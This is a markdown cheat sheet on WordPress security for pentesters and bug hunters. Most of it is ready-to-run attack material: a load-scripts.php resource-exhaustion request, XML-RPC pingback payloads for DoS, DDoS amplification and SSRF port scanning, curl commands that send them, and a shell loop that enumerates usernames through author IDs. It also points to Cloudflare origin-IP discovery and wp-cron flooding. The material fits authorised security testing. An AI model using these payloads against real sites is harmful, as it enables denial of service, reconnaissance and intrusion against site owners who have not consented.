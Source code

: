 +++
title = "Wordpress Security"
date = '2022-11-20'
description = 'Common misconfigurations, risky default settings, major mistakes, and general methodologies that are useful when pentesting/bug hunting/auditing wordpress websites.'
+++
# WordPress Security

## Wordpress Tools:
 - [https://github.com/wpscanteam/wpscan](WPScan) - One of the better tools at it's just.
 -- gem install wpscan
 -- docker pull wpscanteam/wpscan
 -- wpscan --update # updates the database
 -- Users of pentesting distrobutions generally should install the version from their repository.
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)
 - [https://github.com/relarizky/wpxploit](https://github.com/relarizky/wpxploit)

## Wordpress Tricks:

### load-scripts.php denial of service
`load-scripts.php` resource exhaustion
**Wordpress versions 4.9.3** and prior:
```bash
/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```

### Check IP behind Cloudflare
[https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/](https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/)
Get the IP address of a target wordpress website by abusing the ping-back feature

## Testing xml-rpc on all Wordpress versions
[https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

### pingback.xml (can be used for DoS and potential to zombie into a DDoS)
```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://10.0.0.1/hello/world/</string>
  </value>
 </param>
</params>
</methodCall>
```

### WordPress xml-rpc.php SSRF (internal/local port scan)
Easy example would be to check a port that needs to be open or is generally open internally

```xml
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<TARGET-TO-SCAN>:<PORT-TO-CHECK></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

### Lsist available methods through xml-rpc
```xml
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

`curl -X POST -d @pingback.xml https://exmaple.com/xmlrpc.php`

### Check for presence of xmlrpc
`curl -d '<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>demo.sayHello</methodName><params/></methodCall>' -k https://example.com/xmlrpc.php`

### xml-rpc.php tool
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)


### Enumerate users
```bash
for i in {1..50}; do curl -s -L -i https://example.com/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done
```
[https://site.com/wp-json/wp/v2/users/](https://site.com/wp-json/wp/v2/users/)


### Common Misconfigurations:
- Often admins will forget to disable directory listing even for sensitive directories (plugins/themes/etc.. worth checking, I always try /wp-content/uploads/ hoping for directory listing)
- wp-cron.php denial of service: If they're running any kind of older WP then wp-cron runs every time a web page is loaded. For sites make use of several plugins or poorly coded plugins or even just things that take a while to complete (rebuilding cache?), a flood of requests can cause the wp-cron.php method to take the site down..
